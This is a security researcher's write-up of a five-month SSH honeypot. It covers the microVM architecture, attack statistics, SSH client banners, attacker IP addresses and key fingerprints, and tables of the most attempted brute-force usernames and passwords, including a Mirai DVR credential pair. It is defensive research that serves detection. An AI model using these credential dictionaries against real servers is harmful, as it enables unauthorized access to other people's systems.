









# Five Months of an SSH Honeypot: 530,860 Attempts, 698 microVMs, and a Botnet That Hasn't Learned Anything Since 2018

> **TL;DR** — I exposed a fake SSH server to the internet for 133 days. Every attacker who guesses a password gets their own disposable QEMU microVM, with no network access and a custom kernel. The result: 530,860 authentication attempts, 6,677 unique IP addresses, 1,656 successful logins, 12,939 recorded commands, and a very concrete picture of what the internet's offensive background noise actually looks like.

*French version: [writeup-fr.md](writeup-fr.md)*

> [!NOTE]
> **Updated 4 October 2026.** The first version counted *sessions*, which are in fact SSH channels: bots send each command in its own channel, so a single connection produces about thirteen "sessions" on average. Every figure that used sessions as its unit is now computed per **successful connection that runs commands** (993). This changes one conclusion — China is the **first** country by connections that run commands, not the seventh — and removes an artifact: the `exit` reported as the most typed command was appended by the honeypot itself after each command. Two commands quoted in the competition section (`iptables -F`, `multics.x64`) turned out to be the content of a file uploaded over `scp`, not executed commands; they are removed. Authentication figures are unchanged. Also added since publication: [data hunting](#looking-for-data--or-rather-for-the-next-hop), [a chapter on what the payloads do](#following-the-payloads), based on abuse.ch and VirusTotal, and [blind spots](#blind-spots).

---

## Table of contents

- [Why a honeypot](#why-a-honeypot)
- [The architecture](#the-architecture)
- [The raw numbers](#the-raw-numbers)
- [Initial access vector: passwords, and nothing else](#initial-access-vector-passwords-and-nothing-else)
- [Most attempted usernames](#most-attempted-usernames)
- [Most attempted passwords](#most-attempted-passwords)
- [Where they come from](#where-they-come-from)
- [What they type once inside](#what-they-type-once-inside)
- [Identified campaigns](#identified-campaigns)
- [Payloads and their URLs](#payloads-and-their-urls)
- [Following the payloads](#following-the-payloads)
- [Takeaways](#takeaways)
- [Blind spots](#blind-spots)

---

## Why a honeypot

The starting idea was simple: I wanted data of my own. There is no shortage of reports about "SSH attacks," but they are generally based on vendor telemetry you cannot verify. I wanted to see for myself what hits an ordinary IP address, with no particular reputation, on a run-of-the-mill VPS.

The catch is that a convincing SSH honeypot has to hand out a real shell. And a real shell is a real risk: if the attacker escapes, my machine joins a botnet and I become the one sending malicious traffic. Emulated-shell honeypots like Cowrie sidestep the problem by faking commands, but that is detectable in about three commands, and any halfway serious bot walks away.

Hence the compromise I settled on: **a real shell, in a real VM, disposable, with no network**.

## The architecture


```mermaid
flowchart TB
    NET["🌐 Internet<br/>scanners, botnets"] -->|"TCP :2222"| GO

    subgraph HOST["Host VPS — Debian/Ubuntu"]
        GO["<b>SSH server in Go</b><br/>golang.org/x/crypto/ssh<br/><code>microvm/host</code> module"]
        GO --> AUTH{"Correct<br/>password?"}
        AUTH -->|no| LOG1["logged to<br/><code>failed_logins</code>"]
        AUTH -->|yes| POOL["<b>VM manager</b><br/>one microVM per attacker fingerprint"]

        POOL --> SOVL["session overlay<br/><code>session-XXXX.qcow2</code><br/><i>ephemeral</i>"]
        SOVL -.->|backing file| OVL["attacker overlay<br/><code>attacker-N.qcow2</code><br/><i>persistent</i>"]
        SOVL -->|"merged on<br/>clean exit"| OVL
        OVL -.->|read-only<br/>backing file| BASE[("base rootfs<br/>honeypot.ext4 — 512 MB")]

        POOL --> QEMU

        subgraph VM["QEMU microVM — KVM"]
            QEMU["<code>qemu-system-x86_64</code><br/><b>microvm</b> machine type, 256 MB<br/>virtio-blk / virtio-serial / virtio-rng<br/><b>no -netdev → no network</b>"]
            KERN["custom kernel <code>vmlinux</code> 6.12.81"]
            QEMU --- KERN
        end

        QEMU <-->|"virtio-serial console"| GO
        GO --> REC["<b>asciinema v2 recorder</b><br/>byte-level i/o capture"]
        REC --> DB[("SQLite<br/>honeypot.db")]
        GO --> WEB["web UI :8080<br/>session replay"]
        GO --> HOOK["real-time notifications"]
    end
```

### The SSH server

A single Go binary with no runtime dependencies. The module is called `microvm`, organized as `host/internal/{ssh,vm,db,web,bus,notify}`. It builds on `golang.org/x/crypto/ssh` for the server side, `gorilla/websocket` for live replay in the web UI, and SQLite for persistence.

It runs under systemd as a dedicated `honeypot` user belonging to the `kvm` group (needed to open `/dev/kvm`), with `NoNewPrivileges=yes`, `ProtectSystem=strict`, `PrivateTmp=yes`, and an allowlist of writable paths. The binary and the images sit in `ReadOnlyPaths`.

### The authentication trap

This is the most entertaining part of the design. The server does not accept just any password — that would be far too obvious, and a bot that succeeds on the first try with a random password figures it out immediately. Instead, each attacker is **deterministically assigned** a password drawn from a short, plausible list:

```json
["admin","password","123456","root","toor","ubuntu","debian","raspberry","alpine","changeme"]
```

The attacker has to "find" *their* password. In practice they brute-force, and after some number of tries they land on it. From the bot's point of view this is indistinguishable from a genuinely misconfigured server. From a data point of view it gives me a clean signal: how many attempts before success, and above all the **full list** of everything they tried first.

The server logs are fairly eloquent:

```
2026-09-21T11:43:22 auth user="root" src=101.37.117.27:56158: wrong password (expected "debian")
2026-09-21T11:45:22 auth user="root" src=101.37.117.27:33904: wrong password (expected "debian")
2026-09-21T11:52:22 auth user="root" src=101.37.117.27:39982: wrong password (expected "debian")
```

### The microVM

Once authentication succeeds, the server spins up a VM. Not a container — a real hardware VM with KVM, because I did not want to rely on host kernel isolation against an attacker who is root.

It is `qemu-system-x86_64` with the **`microvm`** machine type: no BIOS, no ACPI, no PCI, just a minimal MMIO bus. The shell reaches the attacker in a median of 39 ms (see below), and the memory footprint is negligible. The VM gets:

| Component | Choice | Why |
|---|---|---|
| Machine | `microvm` + `-enable-kvm` | near-instant boot, minimal QEMU attack surface |
| Memory | 256 MB | enough for a shell, frustrating for a miner |
| Kernel | custom `vmlinux` 6.12.81 | built without unnecessary drivers, smaller surface |
| Disk | `virtio-blk` on a qcow2 overlay | copy-on-write per attacker |
| Console | `virtio-serial` | the shell, relayed to the SSH session |
| Entropy | `virtio-rng` | otherwise crypto tooling stalls and it smells like a trap |
| **Network** | **no `-netdev` at all** | **the whole point** |

> [!IMPORTANT]
> **No network whatsoever.** This is not a restrictive firewall, and not a filtered network namespace: there is simply no network interface inside the VM. A `wget` fails at the socket layer. That is the guarantee that no downloaded payload can execute or spread, even if something else in the chain has a bug.

The cost of that choice is that I see the *URLs* attackers try to reach, but I do not collect the binaries. It is a deliberate trade-off: I would rather have a chain whose harmlessness I can guarantee than a malware sample collection and a sleepless night.

### Why a microVM: boot time

The `microvm` machine type is not a stylistic choice: it is the constraint that makes everything else possible.

A honeypot that hands out a real shell in a real VM has to boot that VM **during the SSH handshake**, between the moment the attacker is authenticated and the moment they need to see a prompt. If that delay is perceptible, the trap gives itself away: nobody waits three seconds after a successful `ssh root@…`. The available budget is therefore network latency — a few tens of milliseconds.

The server logs two distinct measurements for every session. Across the whole period:

| Measurement | n | min | median | p90 | p99 | max |
|---|---:|---:|---:|---:|---:|---:|
| QEMU ready (`VM ready in`) | 1,043 | 50 ms | **51 ms** | 101 ms | 103 ms | 202 ms |
| First shell output (`VM first output after`) | 12,821 | 3 ms | **39 ms** | 61 ms | 140 ms | 391 ms |

The second row is the one that matters, because it is the one the attacker perceives: **the median time from authentication to the first byte of the prompt is 39 ms**, and 90% of sessions are served in under 61 ms.

> [!NOTE]
> A note on the first row: the values cluster on 50/51 ms and 101/102 ms, which betrays a 50 ms polling loop on the supervisor side. That figure is therefore a **quantized upper bound**, not a fine-grained measurement of QEMU's startup. The "first output" metric is measured continuously and has no such artifact — that is the one to trust.

For scale: **39 ms is less than a network round trip from Asia or South America**, where most of the observed traffic originates. The VM finishes booting while the packets are still on the wire. From the attacker's point of view there is no boot at all — the shell is simply there.

This is what QEMU's `microvm` machine type buys you: no BIOS to execute, no ACPI enumeration, no PCI bus to probe, just a minimal MMIO bus and three virtio devices. A conventional VM boot (SeaBIOS + ACPI + PCI) is measured in seconds — two orders of magnitude higher, which would have made the trap unusable.

### Per-attacker persistence

Each attacker is identified by a fingerprint: their source IP address, and nothing else. Storage is a **three-level qcow2 chain**, and it is the second pillar of the fast boot:

```
honeypot.ext4                    ← base rootfs, 512 MB, shared, immutable
   └── attacker-N.qcow2          ← attacker N's persistent state (698 files)
         └── session-XXXX.qcow2  ← current session's writes, ephemeral
```

The VM never writes into a large file: it writes into an empty session overlay created on the fly. When the session closes cleanly, that overlay is merged into the attacker's overlay — the `vm[…] exited and committed` line in the logs, seen 975 times across 1,043 VM starts.

That third level has two virtues. First, **speed**: creating an empty qcow2 is instantaneous regardless of the size of the image beneath it. Second, **safety**: if the VM crashes, is killed, or does something destructive, the attacker's persistent state is never corrupted — the session overlay is simply discarded. The 64 `session-*.qcow2` overlays still on disk are exactly those sessions that did not end cleanly.

When the same attacker returns, they find **their** machine with their modifications intact. Their crontabs, their files in `/tmp`, the SSH key they added to `authorized_keys`. That is what makes the trap credible over time, and what makes it possible to observe campaigns returning over months — like the `kswpad` operator, who came back to their own VM for four months.

Idle VMs are reaped after an inactivity timeout (907 `idle for` events in the logs), which bounds the host's memory usage: only a handful of VMs are actually running at any given moment.

698 VMs were created for 6,677 attackers: the overwhelming majority never get past the login screen.

### The recording

Every session is recorded in **asciinema v2** format, byte by byte, with microsecond timestamps, into a SQLite blob. The input stream (`"i"`, what the attacker types) and the output stream (`"o"`, what the attacker sees) are kept separate — which makes it possible to reconstruct the exact keystrokes, typos and corrections included.

```
[1.404094115,"i","c"]
[1.404901327,"o","c"]
[1.683720568,"i","u"]
[1.684692776,"o","u"]
[1.788702059,"i","r"]
[1.789876997,"o","r"]
[1.892635207,"i","l"]
```

Yes, that is an attacker typing `curl`, one letter at a time, inside a VM with no network. In total: **736 MB of recordings** across 12,939 recordings.

The SQLite schema is deliberately simple:

```sql
attackers      -- fingerprint, IP, SSH client, assigned password, first/last seen
vms            -- qcow2 overlay bound to an attacker
sessions       -- metadata + asciinema blob
login_attempts -- every try, successful or not
failed_logins  -- raw failures, including before an attacker is known
passwords      -- deduplication of attempted passwords
```

---

## The raw numbers

**Observation window: 28 April 2026 to 21 September 2026** — 133 days of activity.

| Metric | Value |
|---|---:|
| Authentication attempts | **530,860** |
| of which failed | 529,207 |
| of which succeeded | 1,656 |
| Success rate | 0.31% |
| Unique IP addresses | **6,677** |
| Distinct source countries | **138** |
| Successful logins that run commands | **993** |
| Commands executed (one SSH channel each) | 12,939 |
| microVMs created | 698 |
| Distinct passwords tried | **77,173** |
| Distinct commands observed | 1,855 |
| Average attempts / day | ~3,612 |
| Average connections running commands / day | ~6.8 |
| Average commands / day | ~88 |

### Distribution over time


```mermaid
%%{init: {'theme':'base','themeVariables':{'xyChart':{'backgroundColor':'transparent','titleColor':'#8b949e','xAxisLabelColor':'#8b949e','xAxisTitleColor':'#8b949e','xAxisTickColor':'#8b949e','xAxisLineColor':'#8b949e','yAxisLabelColor':'#8b949e','yAxisTitleColor':'#8b949e','yAxisTickColor':'#8b949e','yAxisLineColor':'#8b949e','plotColorPalette':'#4C72B0'}}}}%%
xychart-beta
    title "Connections running commands, per month"
    x-axis ["Apr 26", "May 26", "Jun 26", "Jul 26", "Aug 26", "Sep 26"]
    y-axis "Connections" 0 --> 450
    bar [5, 129, 400, 148, 107, 204]
```

The June spike (400 connections) corresponds to a massive, tightly concentrated campaign: 18 June alone accounts for 54 connections and 653 commands. The heaviest days by *attempt* count fall elsewhere — 31,309 on 6 May, 30,634 on 8 September — which shows that mass brute-forcing and exploitation are two activities run by different actors.

By hour of day, the distribution is remarkably flat: between 26 and 79 connections depending on the UTC hour, with no nighttime dip. This is fully automated; nobody sleeps.

---

## Initial access vector: passwords, and nothing else

This is the single clearest result of the whole study, and it deserves to stand alone:

> [!NOTE]
> **Across 530,860 authentication attempts, not one tried to *guess* a public key.** There were 558 public-key attempts, from 31 IP addresses — but they replay the same **5 keys** throughout. Credential stuffing, not broken cryptography.

Not one attempt to exploit a vulnerability in the SSH protocol. No algorithm downgrade attempt. No Terrapin, no `regreSSHion` (CVE-2024-6387), nothing. What the internet does, 3,600 times a day, is try `root` / `123456`.

### Public keys: known-key stuffing, not key guessing

An earlier version of this write-up claimed "zero public-key attempts". That was wrong, and the error was methodological: the honeypot rejects key authentication upstream, before writing anything to the database. Those events existed only in `journald`, and I had queried SQLite alone. Corrected after a reader asked whether nobody was trying the 2008 Debian weak keys — it was the right question to ask.

The real figures, over the same window, excluding the addresses I used to test the setup myself:

| | |
|---|---:|
| Public-key attempts | **558** |
| Distinct IPs | **31** |
| Distinct keys offered | **5** |

The ratio between those three numbers is the entire finding. **558 attempts for 5 keys**: nobody is walking a keyspace. If someone were trying the Debian keyspace from CVE-2008-0166 (~32,768 keys per type and size), we would see thousands of distinct fingerprints. We see five, replayed in a loop.

| SHA256 fingerprint | Attempts | IPs | Window | Accounts targeted |
|---|---:|---:|---|---|
| `9prMbqhS4QteoFQ1ZRJDqSBLWoHXPyKB0iWR05Ghro4` | 299 | **26** | 29 Apr → 16 Sep | `root` |
| `1M4RzhMyWuFS/86uPY/ce2prh/dVTHW7iD2RhpquOZA` | 220 | 2 | 29 Apr → 12 Aug | `root` |
| `YKCFpn6LcgP4JaK0DVVneI6T+AW9y2a2QwLT6IZ/nJ0` | 32 | 1 | 20 Sep → 21 Sep | `root`, `redis`, `web3`, `wallet`, `solana`, `deploy`, `git` |
| `ZwhXWs2Dwz/NU3x+Odj8oIMDLXnUScGxsob18pR2Q6I` | 4 | 1 | 20 Sep | `root`, `web3`, `wallet`, `solana` |
| `78gkKoLYeUW62etRipAiAw2jImcwCMnvC5BO9+3mOtY` | 3 | 3 | 18 Jul → 18 Aug | `root`, `pi` |

The addresses, per key, as indicators of compromise:

| Fingerprint | Source IPs |
|---|---|
| `9prMbqhS…` | `2.194.71.234`, `39.37.239.119`, `39.38.202.85`, `39.46.192.49`, `39.62.100.57`, `45.148.10.121`, `72.211.57.167`, `82.215.3.87`, `83.191.187.184`, `116.48.55.250`, `119.195.48.94`, `121.142.248.21`, `122.161.44.155`, `125.143.65.83`, `128.185.208.42`, `142.185.171.2`, `169.210.8.35`, `186.94.126.102`, `187.9.247.58`, `193.114.157.52`, `194.164.167.26`, `195.178.110.137`, `203.221.55.133`, `211.194.231.75`, `211.216.125.57`, `216.185.219.201` |
| `1M4RzhMy…` | `45.148.10.121`, `195.178.110.137` |
| `YKCFpn6L…` | `154.70.152.215` |
| `ZwhXWs2D…` | `164.90.202.72` |
| `78gkKoLY…` | `45.148.10.68`, `77.90.185.20`, `130.12.180.51` |

Two overlaps are worth noting. `45.148.10.121` and `195.178.110.137` each present **two different keys**, and they are the only two IPs behind `1M4RzhMy…` — same operator, two credential sets. And `154.70.152.215` sits immediately next to `154.70.152.216`, the host distributing the `zed` payload [seen below](#payloads-and-their-urls): same /24, so almost certainly the same infrastructure.

The first row is the telling one: **the same key presented from 26 different IP addresses, over five months.** One key, distributed across a whole fleet.

What those attackers believe they are doing is the open question. Two readings are possible: either they are re-checking a backdoor they planted themselves, or they are trying keys they already hold — stolen, leaked, or hardcoded by a vendor — hoping to hit a machine that accepts them. The data settles it.

First, a clarification that covers all 558: **none of them had any chance of succeeding.** The honeypot categorically refuses key authentication, whatever key is offered — the public-key success rate is not low, it is structurally zero. What follows is only about what attackers *attempted*.

The discriminator lies elsewhere: **of the 31 IPs that presented a key, 22 never tried a single password, and only 2 ever managed to open a shell — by password, necessarily.** You do not re-check a backdoor on a machine you never breached. The overwhelming majority of these attempts target a host where those attackers never installed anything, and so could never have planted the key they are presenting.

So it is a key-based attack — just not the one that comes to mind. This is not key *guessing*, it is **known-key stuffing**: a small fixed set of public credentials replayed everywhere, exactly as `root`/`123456` is replayed. The difference from password brute-forcing is not the method, it is the dictionary size — five entries instead of 77,173.

Two exceptions support the reading: `78gkKoLY…` is the only key presented by the two IPs that actually compromised the honeypot by password. For that one, and only that one, the "verifying existing access" hypothesis is plausible.

The two keys from 20–21 September complete the picture: they target `redis`, `web3`, `wallet`, `solana` — exactly the accounts of the same crypto-focused actor spotted on the `OpenSSH_8.0` banner. An operator trying their keys against specific accounts rather than sweeping.

> [!NOTE]
> **Where do these 5 keys come from? I cannot say, and that is the real limitation.** The honeypot logs only the SHA256 fingerprint, not the key material — and a fingerprint is a one-way hash. So there is no way to check whether these are Debian weak keys, vendor keys pulled from a firmware image, or private keys scraped from a public Git repository. No lookup service fills that gap: [badkeys](https://badkeys.info/), the one tool that detects CVE-2008-0166, indexes on the RSA modulus and requires the full key; VirusTotal does not index SSH keys; Shodan, Censys and [Passive SSH](https://github.com/D4-project/passive-ssh) do accept a fingerprint as input, but they index **host** keys, not client authentication keys. Capturing the full key is the fix to make to the honeypot, and it would make every one of those checks possible.


One more point: the honeypot listens on **port 2222**, not 22. I checked the startup logs — it has never been on anything else, and there is no NAT redirection.

> [!WARNING]
> **Moving SSH to a common alternative port protects you from nothing.** This honeypot absorbed 3,600 attempts per day on port 2222. Mass scanners sweep 2222, 2022, 22222, and 222 exactly as they sweep 22. Security through obscurity on the port number reduces noise in your logs, not your risk.

To be fair, 2222 is not exotic: it is probably the most common SSH port after 22, and scanners know it. This data shows that the usual alternative ports are swept as hard as 22. It does not tell whether a genuinely random high port would be found as quickly — see [Blind spots](#blind-spots).

The attempt count per attacker is heavily skewed: median of 9 tries, 99th percentile at 723, and a record of **29,077 attempts** from a single address. The low median reflects bots that test three passwords and move on to the next target; the long tail is dedicated brute-forcers grinding away for weeks.

### SSH libraries used: three distinct trades

The `ssh_client` field is the banner the client announces in the very first exchange of the protocol. It is self-declared — therefore forgeable — but that is exactly what makes it interesting: what a tool chooses to announce is a signature in itself.

26 distinct banners were observed, which reduce to **9 libraries**. The breakdown **by authentication attempts**:


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Authentication attempts by library
    "Go (x/crypto/ssh)" : 370717
    "libssh" : 96978
    "OpenSSH" : 36543
    "libssh2" : 25178
    "russh (Rust)" : 1128
    "SSH.NET (C#)" : 708
    "others" : 139
```

But the breakdown **by connections that run commands** is very nearly the inverse:


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Connections running commands, by library
    "libssh" : 687
    "Go (x/crypto/ssh)" : 274
    "russh (Rust)" : 19
    "OpenSSH" : 12
    "paramiko" : 1
```

That gap is not a statistical curiosity: **it is evidence that brute-forcing and exploiting are two separate trades, using different tooling.**

| Library | IPs | Attempts | % att. | Successes | Att./IP | Active conn. | % active | Window |
|---|---:|---:|---:|---:|---:|---:|---:|---|
| **Go** (`x/crypto/ssh`) | 2,019 | 370,717 | 69.8% | 554 | 184 | 274 | 27.6% | 29 Apr → 21 Sep |
| **libssh** | 2,928 | 96,978 | 18.2% | 728 | 33 | **687** | **69.2%** | 29 Apr → 21 Sep |
| **OpenSSH** | 1,349 | 36,543 | 6.9% | 100 | 27 | 12 | 1.2% | 28 Apr → 21 Sep |
| **libssh2** | 261 | 25,178 | 4.7% | 254 | 96 | **0** | 0% | 29 Apr → 21 Sep |
| **russh** (Rust) | 67 | 1,128 | 0.2% | 19 | 17 | 19 | 1.9% | 29 Apr → 17 Sep |
| **SSH.NET** (C#) | 2 | 708 | 0.1% | 0 | 354 | 0 | 0% | 1 Sep → 21 Sep |
| **sshcustom** | 2 | 94 | — | 1 | 47 | 0 | 0% | 3 Jul |
| **paramiko** (Python) | 6 | 34 | — | 0 | 6 | 1 | 0.1% | 14 May → 16 Sep |
| **PuTTY** | 3 | 11 | — | 0 | 4 | 0 | 0% | 6 May → 20 Sep |

#### 1. Go: the mass brute-forcing engine

**Go alone accounts for 69.8% of all authentication attempts** — 370,717 tries from 2,019 IP addresses, or 184 tries per IP. A single banner, `SSH-2.0-Go`, which is the `golang.org/x/crypto/ssh` default left untouched.

It is also the client behind the targeted reconnaissance: **1,662 of the 1,663 attempts on the `remi-ziolkowski` username** come from it. Deriving usernames from the domain name is therefore a feature of this specific tool, not a general behavior of the landscape.

Its IPs are widely distributed (CN:327, KR:231, US:149, PK:135). Of its 554 successful authentications, only 274 go on to run commands — about half: it validates as many credentials as it uses.

That a single codebase concentrates 70% of the offensive SSH traffic reaching me is itself a finding: mass brute-forcing is not a cottage industry, it is a small number of tools reused at enormous scale. And Go has won that niche, for the same reasons it wins elsewhere — static binaries, trivial cross-compilation, cheap concurrency.

#### 2. libssh: the exploiter

libssh makes four times fewer attempts than Go, but **runs commands in 687 connections, 69% of all connections that run any.** It is the tool of those who actually come in.

Here the version carries a finding, so I keep it: **`libssh_0.9.6` accounts for 88,850 of the family's 96,978 attempts, and 640 of its 687 active connections.** Its activity window is the decisive detail — **21 May to 21 September**, matching to the day the Outlaw campaign window identified earlier through the `mdrfckr` key and the `chattr -ia .ssh` block. Two signals collected independently (protocol banner on one side, keystrokes on the other) point at the same actor.

> [!TIP]
> **libssh 0.9.6 was released in December 2020.** A botnet still running on it in 2026 has not recompiled its tooling in five years. That fits an SSH key unchanged since 2018: these operations are not maintained, they are copied.

#### 3. libssh2: pure credential validation

libssh2 — a different library from libssh, despite the name — shows the cleanest profile in the corpus: 25,178 attempts, **254 successful authentications, and not a single command.**

These actors guess the password, authentication succeeds, and they disconnect without running anything. They are not trying to exploit the machine: they are building an inventory of valid credentials. This is the upstream half of the two-tier market described earlier, isolated in pure form in the data.

SSH.NET shows exactly the same profile on a smaller scale: 708 attempts, no commands — and in its case, no successes either.

#### 4. OpenSSH: the banner everybody forges

The OpenSSH family totals 1,349 IPs and 36,543 attempts for **12 connections that run commands**. That is the anomaly in the table: the most legitimate library in the world is also the one that exploits almost nothing. The explanation is simple — most of these banners are fake, and they cover two opposite strategies.

**`SSH-2.0-OpenSSH`, with no version number** (31,101 attempts). No released version of OpenSSH announces that: the real banner always carries the version. This is custom tooling with a truncated banner, and its profile is extreme: **just 5 IP addresses, i.e. 6,220 tries per IP**, with the widest dictionary in the corpus — **7,620 distinct usernames** and 24,380 passwords. Five dedicated machines, in RU, FR, UA, and US, hammering away for four and a half months.

**`SSH-2.0-OpenSSH_7.4`** (4,549 attempts). OpenSSH 7.4 dates from December 2016, the CentOS 7 era. The profile is exactly inverted: **1,313 IP addresses at 3 tries per IP**, and no commands. An extremely wide, extremely thin sheet, from CN:248, IN:166, KR:133. The banner is presumably chosen to blend into the noise of old servers, and the "three tries then move on" pattern is designed to stay under `fail2ban` thresholds.

These two entries illustrate the two opposite evasions: concentrate on few IPs and accept being blocked, or dilute across thousands of IPs and never trip a threshold.

The rest of the family is residual, but one entry is worth flagging: **a South African IP announcing `OpenSSH_8.0`, active on 20–21 September**, trying the usernames `redis`, `web3`, `wallet`, and `solana`. Explicit crypto targeting, and the most recent campaign in the corpus.

#### 5. The long tail: modern tooling and humans

- **russh** (Rust): 67 IPs, 1,128 attempts, 19 connections running one command each. Few usernames tried (5 distinct) but 135 passwords — targeting, not sweeping. Recent tooling, worth watching: this is probably what tomorrow's brute-forcing looks like.
- **SSH.NET** (C#/.NET ecosystem): only appeared in September, 2 IPs, 708 attempts exclusively against `root`, 382 passwords, no successes. Windows tooling.
- **sshcustom**: 2 Turkish IPs, 94 attempts on a single day. Someone testing their own tool — the banner does not even try to lie.
- **paramiko** (Python): 6 IPs, 34 attempts. Hand-rolled scripts.
- **PuTTY**: 3 IPs, 11 attempts total. PuTTY is a Windows GUI client — nobody automates brute-forcing with it. These are almost certainly humans, typing a few credentials by hand and giving up.

#### Turning this into detection

> [!TIP]
> **The client banner is a very low-false-positive detection signal.** On a production server, administrators use OpenSSH, and legitimate automation (Ansible, Terraform) announces OpenSSH or paramiko. A **libssh**, bare **`SSH-2.0-Go`**, **libssh2**, or version-less **`SSH-2.0-OpenSSH`** banner has almost no reason to appear on a typical estate. Those four signatures alone cover **92.7%** of the attempts I observed.
>
> And crucially: the banner is exchanged **before authentication**, in the protocol's first packet. It can therefore be used to reject a connection without ever evaluating a single credential.
---

## Most attempted usernames


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Distribution of attempted usernames
    "root" : 417517
    "admin" : 9086
    "ubuntu" : 7779
    "user" : 3408
    "test" : 2603
    "others" : 90467
```

**`root` accounts for 78.6% of all attempts.** The rest is a long tail of service accounts and vendor defaults.

| # | Username | Attempts | Category |
|---:|---|---:|---|
| 1 | `root` | 417,517 | superuser |
| 2 | `admin` | 9,086 | generic |
| 3 | `ubuntu` | 7,779 | cloud default |
| 4 | `user` | 3,408 | generic |
| 5 | `test` | 2,603 | generic |
| 6 | `remi-ziolkowski` | 1,663 | **targeted — see below** |
| 7 | `postgres` | 1,093 | service |
| 8 | `ftpuser` | 992 | service |
| 9 | `deploy` | 971 | CI/CD |
| 10 | `debian` | 861 | cloud default |
| 11 | `remiziolkowski` | 774 | **targeted** |
| 12 | `dev` | 771 | generic |
| 13 | `oracle` | 723 | service |
| 14 | `support` | 713 | generic |
| 15 | `user1` | 710 | generic |
| 16 | `git` | 696 | service |
| 17 | `guest` | 690 | generic |
| 18 | `ubnt` | 673 | **Ubiquiti default** |
| 19 | `345gs5662d34` | 662 | **see callout** |
| 20 | `cloud` | 504 | generic |
| 21 | `steam` | 496 | game server |
| 22 | `centos` | 457 | cloud default |
| 23 | `testuser` | 431 | generic |
| 24 | `curl` | 411 | anomalous |
| 25 | `mysql` | 400 | service |
| 26 | `orangepi` | 397 | **SBC default** |
| 27 | `operator` | 391 | generic |
| 28 | `cat` | 362 | anomalous |
| 29 | `pi` | 355 | **Raspberry Pi default** |
| 30 | `jenkins` | 355 | CI/CD |

Three observations.

**The domain name is used as a dictionary.** `remi-ziolkowski` and `remiziolkowski` total 2,437 attempts. Nobody guessed that at random: bots derive candidate usernames from the target's domain name or reverse DNS. If your server is called `mail.acme-corp.com`, expect to see `acme`, `acmecorp`, and `acme-corp` in your logs.

**IoT default credentials are still in rotation.** `ubnt` (Ubiquiti), `pi` (Raspberry Pi OS), `orangepi`, `steam`: these are accounts that only exist on consumer devices or single-board computers. Botnets draw no distinction between a VPS and a surveillance camera — they try everything everywhere.

> [!TIP]
> **The `345gs5662d34` signature.** This username appears 662 times, paired with the password `3245gs5662d34`. It is the credential pair hardcoded into the firmware of certain Polycom/HiSilicon DVRs, popularized by **Mirai** variants. Its presence in your logs is a 100% actionable signature: no legitimate system uses that account. It makes an excellent low-false-positive detection rule.

**The `curl` and `cat` usernames** (411 and 362 attempts) are most likely parsing bugs in the attack tooling — a mangled command line where the binary name ends up in the username field. Even attackers have bugs.

---

## Most attempted passwords

77,173 distinct passwords were tried. Here is the top of the list.


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Top 10 passwords
    "123456" : 9510
    "admin" : 4314
    "password" : 3532
    "123" : 3442
    "1234" : 2950
    "12345678" : 2137
    "12345" : 1476
    "root" : 1260
    "1" : 1116
    "test" : 981
```

| # | Password | Attempts | Type |
|---:|---|---:|---|
| 1 | `123456` | 9,510 | classic |
| 2 | `admin` | 4,314 | same as username |
| 3 | `password` | 3,532 | classic |
| 4 | `123` | 3,442 | classic |
| 5 | `1234` | 2,950 | classic |
| 6 | `12345678` | 2,137 | classic |
| 7 | `12345` | 1,476 | classic |
| 8 | `root` | 1,260 | same as username |
| 9 | `1` | 1,116 | classic |
| 10 | `test` | 981 | classic |
| 11 | `111111` | 941 | classic |
| 12 | `P@ssw0rd` | 911 | **"complex" by AD policy standards** |
| 13 | `fjbdfdjkdsfs541544AA@@` | 887 | **botnet signature** |
| 14 | `admin123` | 754 | classic |
| 15 | `123456789` | 704 | classic |
| 16 | `user` | 676 | same as username |
| 17 | `3245gs5662d34` | 676 | **Mirai / DVR** |
| 18 | `345gs5662d34` | 665 | **Mirai / DVR** |
| 19 | `orangepi` | 607 | vendor default |
